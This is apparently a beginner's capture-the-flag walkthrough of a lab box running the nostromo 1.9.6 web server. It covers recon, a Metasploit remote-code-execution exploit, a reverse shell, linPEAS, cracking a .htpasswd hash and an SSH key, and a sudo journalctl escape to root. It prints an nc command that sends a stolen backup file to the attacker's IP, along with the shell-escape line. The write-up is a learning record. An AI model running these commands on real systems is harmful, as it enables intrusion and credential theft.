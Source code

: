 # First steps

As usual Got my nmap running 

![image](https://user-images.githubusercontent.com/84482765/126080080-b9f14ed0-6864-456a-b119-980ef1d8b71f.png)

![image](https://user-images.githubusercontent.com/84482765/126080087-9fa8f445-ceca-42a4-af92-73b0b3873b27.png)

I noticed port 80 so went over to my browser to check the website, but nothing unusual there i saw. 

While i check the website i run dirb, dirbuster, nikto and rapidscan to get some more info. But again, nothing interesting in the website. 
I tried messing with the contact information areas to see if XSS was possible but it was disabled.

Looked back at the nmap result and saw the HTTP header as "nostromo 1.9.6" so i used searchsploit to see if there was anything already there. And there was one found vulnerability.
The vulnerability is for RCE. So i run my msfconsole and set up the options for this vulnerability.

It worked. now i can use RCE so now i need a reverse shell. 
To make it easier for me i wanted to test this website i found: "https://www.revshells.com/"
With it it makes way simpler to test multiple codes for the reverse shell. 
using the "bash -i" code with my info, i set up netcat listener and pop the code over metasploit. 

![image](https://user-images.githubusercontent.com/84482765/126080443-3f6c2808-96bb-47e3-9ed1-a0ae14bca2e8.png)

I start poking around and looking trough the folders. Found user called "David" but since i'm "www-data" so i need some sort of privilege excalation to get David.

I use a tool called "linpeas" to get more info about the system and a way to priv esc.
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Using the "without curl" method, since in that reverse shell i can't use curl, i upload the linpeas.sh file to the server and run it. 

Among the HUGE amount of information that this script show me i found a particular file interesting.

![image](https://user-images.githubusercontent.com/84482765/126080605-283b02c3-1fa0-4ac5-b7d1-8634758407a2.png)


At this point i just want to say a quick FYI. I'm making these write ups mostly to help myself learn and try to understand what i did. I don't put here all the research i do, because most of the time is just a dead end.
I just assume one thing to be what i think it is and move on. If it is not what I tought it was just go back to first step, research and try something diferent.

Moving on...

I assume this is probably a way to use SSH to enter as this user. So i try to decode this hash and get the password.
My first try was with "HASHCAT". But after a few hours trying to get it to work because, what i presume to be, a hardware incompability and/or missing "watchdog" program to monitor my hardware, it just refuse to work.

So i try with "john the ripper" and it was done way faster than i thought. 

![image](https://user-images.githubusercontent.com/84482765/126080833-780065d5-50dd-4f88-a99d-f575a810b050.png)

From what i found about this .htpasswd, it stores apache credentials. So i tested "hydra" to make sure i got it right.

![image](https://user-images.githubusercontent.com/84482765/126082316-959d3d31-ff5f-48ed-a5ac-51db8b25cbdc.png)

I assume i could use it to connect via SSH but that was a dead end.
At this point i spent another couple of hours trying to do something with what i found, with no success. I found the user flag for this box accidentally.
I imagine that somebody else left some files in the tmp folder and inside one of these files, among other information, was the user.txt file. So yeah... 
I got the user flag. But i'm not satisfied with that. So i keep going.

Not gonna lie, i got stuck pretty bad here.

I whent back to tho that linpeas result. Back to that place where i found the .htpasswd file. I saw it was inside /var/nostromo/conf. So i move tho this folder to check things out.

![image](https://user-images.githubusercontent.com/84482765/126085386-b4c0ccc0-0e65-444f-b0aa-cdc4856d21b7.png)

this file "nhttpd.conf" looks interesting


![image](https://user-images.githubusercontent.com/84482765/126085406-a5fb096a-cfba-483e-a44a-21fbbf684ea5.png)

Expecially that final part. 
"HOMEDIRS"

since i know the user is david i try going to that folder :"/home/david/public_www". which surprisingly have read permission for me. Even though it is inside "david" user.

![image](https://user-images.githubusercontent.com/84482765/126085509-df736cad-d63d-489d-b9dd-cb0726002129.png)

Funny enough the file .htaccess is just david telling me to KEEP OUT. So i think i'm in the right path ahahaha
Also inside this folder there is a file called "backup-ssh-identity-files.tgz" so i try getting this file to see what is inside 
I set up a listener using on my machine

     nc -lnvp 443 > backup-identity-files.tgz.b64

and on the server

    cat backup-ssh-identity-files.tgz | nc 10.10.14.65 443 

After uncompressing the file using

    tar -zxvf backup-ssh-identity-files.tgz  
    
it had a few files inside /home/david/.ssh

![image](https://user-images.githubusercontent.com/84482765/126085910-22dc3a06-53bf-4d56-9803-6d0b1e5c8afc.png)


I tried using "john" again to decode the RSA key.

![image](https://user-images.githubusercontent.com/84482765/126086412-e28b2c9f-4b9d-47ea-8f35-d479bd21bce3.png)

But i dont think i really had to do it. Because i can just connect via SSH using this RSA file.

![image](https://user-images.githubusercontent.com/84482765/126086488-eafef4ba-e130-4789-aeb0-7858e0f18c63.png)

It asked for a password, but i think i just setting up my own. but just in case i used the same password i found from "john"

And there it was. Loged in as david! FINALLY! it took me way to long to find it haahahah. But i guess thats how it is in the beginning.

So there it is. Now i have the user flag legitimately

![image](https://user-images.githubusercontent.com/84482765/126086583-9496532c-1777-43e8-a097-f2a91cf95104.png)


# Root Flag

ok... now for the root flag.


OMFG how i overcomplicate stuff. The past hour or so i've been just going around in circles even though basically the FIRST thing i found was the way to go.
So let me start from the beggining.

The first thing i do is use 
 
    sudo -l
    
With it i may be able to see some commands i can try to exploit to get root console. 
But it ask for david password. I use both passwords i found so far (.htpasswd and id_rsa), but both don't work. so i need to find a work around.

I run linpeas again. I still have the .sh file from before, so i just run it again, but now as david. so i might get better stuff.
Right at the beggining of the linpeas report i have this:

![image](https://user-images.githubusercontent.com/84482765/126091225-a0c23517-857a-48df-b444-60c2bed75045.png)

So there is something interesting in this folder.

Going there i see a few files, but the interesting one is called "server-stats.sh"
Runing this file i get this:

![image](https://user-images.githubusercontent.com/84482765/126091376-78d528aa-b990-4a1b-a0a9-dd11bb11d6f9.png)

But by reading the content of the file itself i see something interesting.

![image](https://user-images.githubusercontent.com/84482765/126091444-a51b9c82-9475-4d0b-8b08-e64ac131d556.png)

The script calls for sudo and the command "journalctl". But when i ran this code it didn't ask me for any password. So i guess David is listed in sudoers for this command.

At this stage i experimented a bit and went another rabbit hole that made me go far from what i needed to do.
since i know the command i looked into GTFObins for it and the only thing there for this command was

    journalcrl
    !/bin/bash

so it is pretty simple.
I did a few mistakes. Tried changing the script and runing it again but didn't quite work. 

Eventually i did what i needed to do, which was copying the entire code before the pipe and runing it.

    /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
    
this basically showed me the results from the script. BUT it didn't just end there, i could still write. So i wrote what i saw in the GTFObins website "!/bin/bash"

And that was it... It spawned root console for me.

![image](https://user-images.githubusercontent.com/84482765/126092040-69f3b466-fe74-466d-833f-9cb6212cd940.png)





# Conclusion

Overall box was pretty simple. Even though took me the entire day to do it. I spend too much researching and finding interesting posts, news, documents, exploits and stuff.
But thanks to this box i was able to explore LINPEAS a little more and test diferent ways to file transfer between my machine and the server machine. 
I did strugle if this kind of stuff before. But now i know a few diferent ways to do it. Using SSH, netcat, python simpleserver, wget and curl. 
I also found other scripts that did similar things to linpeas and tried a couple of them on this box. I recomend checking out: https://www.hackingarticles.in/linux-privilege-escalation-automated-script/













